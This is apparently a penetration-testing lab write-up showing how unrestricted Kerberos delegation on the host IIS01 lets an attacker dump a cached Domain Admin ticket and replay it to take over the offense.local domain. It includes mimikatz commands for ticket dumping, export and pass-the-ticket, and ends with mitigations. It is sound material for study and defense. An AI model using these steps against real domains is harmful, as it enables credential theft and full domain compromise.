







# Kerberos Unrestricted Delegation

This lab explores a security impact of unrestricted kerberos delegation enabled on a domain computer.

## Overview

* Unrestricted kerberos delegation is a privilege that can be assigned to a domain computer or a user
* Usually, this privilege is given to computers \(in this lab, it is assigned to a computer IIS01\) running services like IIS, MSSQL, etc. 
* Those services usually require access to some back-end database \(or some other server\), so it can read/modify the database on the authenticated user's behalf
* When a user authenticates to a computer that has unresitricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory 
* The reason TGTs get cached in memory is so the computer \(with delegation rights\) can impersonate the authenticated user as and when required for accessing any other services on that user's behalf

Essentially this looks like so:  
`User` --- authenticates to ---&gt; `IIS server` ---&gt; authenticates on behalf of the user ---&gt; `DB server`


Any user authentication \(i.e CIFS\) to the computer with delegation right enabled will get that user's TGT cached in memory which can then be dumped and reused.


## Setup

Let's give one of our domain computers/our victim computer `IIS01` unrestricted kerberos delegation privilege:


To confirm/find computers on a domain that have unrestricted kerberos delegation property set:

```csharp
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```

We can see our victim computer `IIS01` with `TrustedForDelegation` field set to `$true` - we are good to attack:



## Execution

On the computer IIS01 with kerberos delegation rights, let's do a base run of mimikatz to see what we can find in memory:

```csharp
sekurlsa::tickets
```



Note that we do not have a TGT for `offense\administrator` \(Domain Admin\) just yet.

Let's now send an HTTP request to `IIS01` from a `DC01` host from the context of offense\administrator:

```csharp
Invoke-WebRequest http://iis01.offense.local -UseDefaultCredentials -UseBasicParsing
```

We see the request got a `HTTP 200 OK` response:



Let's check the victim host `IIS01` for new kerberos tickets in memory:

```text
mimikatz # sekurlsa::tickets
```



We can see that the IIS01 has now got a TGT for offense\administrator - this means that we have effectively compromised the entire offense.local domain. We will get back to this in a  moment.

First, let's export all kerberos tickets from IIS01 memory, so we can load offense\administrator ticket TGT into the current session and assume its privileges:

```csharp
mimikatz::tickets /export
```



..but before we proceed with `pass-the-ticket` attack and become a DA, let's try PSRemoting to the `DC01` from `IIS01` and check currently available kerberos tickets in a current logon session - just to make sure we currently do not have DA rights:


Above screenshow shows that there are no tickets and PSSession could not be established - as expected.

Let's now proceed and import the previously dumped offense\administrator TGT into our current logon session on the `IIS01` host:

```csharp
mimikatz # kerberos::ptt C:\Users\Administrator\Desktop\mimikatz\[0;3c785]-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi
```



Once the TGT is imported on IIS01, let's check available tickets and try connecting to the `DC01` again:



As you can see from the above screengrab, the `IIS01` system now contains a `krbtgt` for offense\administrator, which enables this session to access `DC01` C$ share and establish a PSSession with an interactive shell with Domain admin privileges.

### Reminder

Note that successful authentication to ANY service on the IIS01 will cache the authenticated user's TGT. Below is an example of a user `offense\delegate` accessing a share on `IIS01` - the TGT gets cached:


## Mitigation

Some of the available mitigations:

* Disable kerberos delegation where possible
* Be cautious of whom you give privilege **Enable computer and user accounts to be trusted for delegation** - these are users who can enable unrestricted kerberos delagation
* Enable **Account is sensitive and cannot be delegated** for high privileged accounts

## References







